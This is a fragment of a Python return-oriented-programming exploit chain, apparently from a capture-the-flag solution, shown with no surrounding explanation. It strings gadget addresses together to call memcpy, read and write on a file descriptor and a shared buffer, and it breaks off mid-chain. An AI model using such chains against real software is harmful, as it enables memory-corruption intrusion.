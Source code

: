 ```python=

+p64(text+poprdi)
+p64(shared)
+p64(text+poprsi)
+p64(stack-0x1000)
+p64(text+poprdx)
+p64(0x100)
+p64(text+memcpy)

+p64(text+poprdi)
+p64(fd)
+p64(text+poprsi)
+p64(regadd+0x11)
+p64(text+poprdx)
+p64(0x5)
+p64(text+wwrr)

+p64(text+poprdi)
+p64(0)
+p64(text+poprsi)
+p64(regadd+0x16)
+p64(text+poprdx)
+p64(0x2)
+p64(text+readd)

+p64(text+poprdi)
+p64(shared)
+p64(text+poprsi)
+p64(regadd+0x16)
+p64(text+poprdx)
+p64(0x2)
+p64(text+memcpy)

+p64(text+poprdi)
+p64(fd)
+p64(text+poprsi)
+p64(regadd+0x16)
+p64(text+poprdx)
+p64(0x5)
+p64(text+readd)

+p64(text+poprdi)
+p64(1)
+p64(text+poprsi)
+p64(shared+2)
+p64(text+poprdx)
+p64(0x100)
+p64(text+wwrr)

+p64(text+poprdi)
+p64(0)
+p64(text+poprsi)
+p64(shared)
+p64(text+poprdx)
+p64(144)
+p64(text+readd)

+p64(text+poprdi)
+p64(1)
+p64(text+poprsi)
+p64(shared)
+p64(text+poprdx)
+p64(0x100)
```